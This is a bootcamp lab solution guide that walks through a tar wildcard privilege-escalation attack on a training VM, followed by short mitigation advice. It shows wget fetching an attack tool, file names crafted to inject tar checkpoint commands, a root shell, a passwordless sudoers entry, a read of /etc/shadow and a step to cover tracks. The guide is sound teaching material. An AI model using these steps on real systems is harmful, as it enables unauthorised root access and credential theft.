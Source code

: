 ## Solution Guide: Exploiting `tar`

The goal of this activity is to act out the `tar` exploitation and research how to harden systems against this exploit. 

Completing this activity required the following steps: 

- Downloading `wildpwn.py` using a non-`sudo` user account. 
- Running the script to generate `.webscript`.
- Archiving the directory with `tar` to run the exploit.
- Verifying that your user can gain `sudo` access.
- Researching mitigation techniques. 

### Solutions

1. In your VM, switch to the user `jane`, and verify that you have no `sudo` privileges:

   - Run `su jane`. Use `password` as the password.

   - Run `sudo -l` to confirm that you do not have **super user** privileges.

2. Next, we'll look for automated `tar` backup files that can be exploited. 

  - As `jane`, run `cd ~/Documents`

  - Run `ls -l` to display the archive file, `jane_docs_backup.tar`.

      ```
      -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
      ```

3. Download the [wildpwn.py](https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py) attack tool to your `~/Documents/ExploitTar` directory:

   - `cd ~/Documents/ExploitTar`

   - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

   - Check the contents of the directory before running the script with `ls -lat`:

     ```
     total 16
     drwxr-xr-x 3 jane jane 4096 Apr 28 18:40  .
     drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
     -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
     drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f7
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f6
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f5
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f4
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f3
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f2
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f10
     -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f1
     ```


4. Use `wildpwn.py` to generate the malicious files by running:

    - Within the `ExploitTar` directory, run `python wildpwn.py tar .` 
    
    - The output will display:

        ```
        [!] Selected payload: tar
        [+] Done! Now wait for something like: tar cf archive.tar * on ./. Good luck!
        ```

    -  Run `ls -lat` to display our new payload files:

        ```
        total 20
        drwxr-xr-x 3 jane jane 4096 Apr 28 18:41  .
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint=1'
        -rw-rw-r-- 1 jane jane    0 Apr 28 18:41 '--checkpoint-action=exec=sh .webscript'
        -rw-rw-r-- 1 jane jane  535 Apr 28 18:41  .webscript
        drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
        -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
        drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
        -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
        ...
        ...
        ```

5. After waiting 1-2 minutes, we can re-run `ls -lat` to display that the contents of the directory have changed!

    - Run `ls -lat` to display:

      ```
      total 20
      drwxr-xr-x 4 jane jane 4096 Apr 28 18:42  .
      drwxr-xr-x 2 root root 4096 Apr 28 18:42  .cache
      drwxr-xr-x 4 jane jane 4096 Apr 28 13:56  ..
      -rw-rw-r-- 1 jane jane 3699 Apr 28 13:54  wildpwn.py
      drwxr-xr-x 2 jane jane 4096 Apr 28 13:52 'important docs'
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f9
      -rwxr-xr-x 1 jane jane    0 Apr 28 13:51  f8
      ```

    - Our exploit file should exist inside of a newly created `.cache` directory, with the name, `.cachefile`.

      - Run `cd .cache` to navigate _into_ the `.cache` directory

      - Run `ls -lat` to display the hidden `.cachefile` exploit file. 
        
        - `-l`: displays a long-list format of the files. 
        - `-a`: displays entries starting with a `.`.
        - `-t`: sorts by time modified, which we want due to the nature of this exploit.


6. While still in the `.cache` subdirectory, execute the `.cachefile` within the terminal:

   - Run `./.cachefile`  

    - You'll see your user prompt change from `jane:$` to `root:#`!


7. Add `jane` to `/etc/sudoers` so that we'll be able to run any command with superuser privileges.s `root`:

   - As `root` run `visudo` and navigate to the following section of the file:

     ```bash
     # User privilege specification
     root    ALL=(ALL:ALL) ALL
     ```

   - Under that `root` permission, add the following line and save the file:  

     ```bash
     jane   ALL=(ALL) NOPASSWD:ALL
 
   - This should allow us to run `sudo` commands as `jane` without having to enter a password.


8. Log back in as `jane` and verify that you can run commands with `sudo`. 
  
    - Run `su jane`  

    - Test your `sudo` permissions with:

        - `sudo -l`, and then

        - `sudo cat /etc/shadow` 

     - If you can see the contents of this file, you have successfully carried out a `tar wildcard attack`, turning `jane` into a superuser!

     - Due to how you edited the `visudo` entry above, you shouldn't need to enter your password for this command. Password-less `sudo` permissions allow attackers to rapidly execute elevated instructions on a target machine.

    - Remove the `ExploitTar` directory entirely to cover your tracks.

        - Run `rm -r ~/Documents/ExploitTar`


9. Ways to prevent this attack in the future include:

   - Preventing users from downloading files from untrusted sources. This will involve enforcing stricter **permissions** on where users can save files.

   - Using a tool like `tripwire` to watch the file system for suspicious changes. This will alert you whenever a user downloaded files like `wildpwn.py`, or when backups create files like `.cache/.cachefile`.
    
   - Use a tool like `lynis` to scan the system for security vulnerabilities on a regular basis. This will make it more likely that you will identify malicious files before they have a chance to damage the system.


If you would like to read more about wildcard attacks, check out  the following references:

   - [Back To The Future: Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930)
   - [wildpwn's GitHub page](https://github.com/localh0t/wildpwn)

--- 

© 2020 Trilogy Education Services, a 2U, Inc. brand.  All Rights Reserved.